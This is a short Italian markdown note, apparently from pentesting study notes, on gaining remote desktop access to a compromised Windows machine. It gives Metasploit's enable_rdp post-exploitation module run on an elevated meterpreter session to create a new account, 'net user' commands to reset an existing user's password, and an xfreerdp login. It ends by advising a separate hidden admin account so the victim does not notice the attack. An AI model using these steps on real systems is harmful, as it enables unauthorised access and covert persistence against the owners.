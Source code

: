 
# Abilitazione di RDP
RDP (Remote Desktop Protocol) é disabilitato di default nei sistemi windows. <br>
Esiste un modulo Meteasploit per poterlo abilitare ma dobbiamo avere prima una sessione meterpreter con dei privilegi elevati. <Br>
```bash
use post/windows/manage/enable_rdp
set SESSION 1
set PASSWORD <pasword>                 # impostiamo una password per l'account che il modulo creerà
set USERNAME <username>                # impostiamo uno username per l'account che il modulo creerà
run
```

possiamo anche cambiare le credenziali di un utente se RDP é già abilitato. <br>
```bash
shell
net users          # per vedere che utenti sono presenti nel target
net user <username> <nuovaPassword>
```
per poterci autenticare con le nuove credenziali, usiamo `xfreerdp`
```bash
xfreerdp /u:<username> /p:<oassword> /v:<IP>
y

```
Questo metodono non é consigliato se non si volessero destare sospetti dato che se un utente dovesse vedere che la sua password non gli fará piú ottenere l'accesso al servizio RDP, potrebbe sospettare di essere stato soggetto ad un attacco, meglio se creiamo un altro account con permessi elevati e effettuiamo l'accesso da quello.

---
